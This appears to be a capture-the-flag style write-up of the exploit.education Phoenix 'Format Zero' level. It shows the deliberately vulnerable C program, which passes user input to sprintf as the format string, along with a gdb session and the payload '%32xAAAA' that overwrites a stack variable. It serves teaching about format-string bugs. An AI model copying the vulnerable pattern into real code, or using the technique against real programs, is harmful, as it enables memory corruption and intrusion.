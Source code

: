 ```yaml
---
title: "Format Zero"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```

To learn about format string vulnerability see the references at the end.

This code uses **sprintf** function to write the formatted string **buffer** to **dest**.

The bug here is that if we entered a format string like **%d** without additional arguments (a number in this case) we could leak some values of the stack.

For example:

```c
int main() {
	printf("%x.%x.%x");
}
# output: d0a8b868 d0a8b878 3c43b1b0
```

As you can see we were able to leak some stack addresses.

Back to our level we must overflow **dest** to overwrite **changeme** but the buffer is too small for that so we can use the format string trick to solve this.

As you saw that one **%x** prints 8 characters so we can enter: (4 %x + value of **changeme**).

We can also just enter one %x with padding of 32 bytes like this: (%32x + value of **changeme**).

```
user@phoenix-amd64:~$ gdb -q /opt/phoenix/amd64/format-zero 
Reading symbols from /opt/phoenix/amd64/format-zero...(no debugging symbols found)...done.

gef➤  disassemble main 
Dump of assembler code for function main:
.....
   0x0000000000400700 <+99>:	mov    eax,0x0
   0x0000000000400705 <+104>:	call   0x400500 <sprintf@plt>
   0x000000000040070a <+109>:	mov    eax,DWORD PTR [rbp-0x10]
.....

gef➤  b *0x000000000040070a
Breakpoint 1 at 0x40070a

gef➤  r
Starting program: /opt/phoenix/amd64/format-zero 
Welcome to phoenix/format-zero, brought to you by https://exploit.education
%32xAAAAAAAA

gef➤  x/5xg $rbp-0x30
0x7fffffffe620:	0x2020202020202020	0x2020202020202020
0x7fffffffe630:	0x2020202020202020	0x3031366566666666
0x7fffffffe640:	0x0000000a41414141
```

# Solution:

```
$ echo "%32xAAAA" | /opt/phoenix/amd64/format-zero 
Welcome to phoenix/format-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!  
```

#### References:

[http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html](http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html)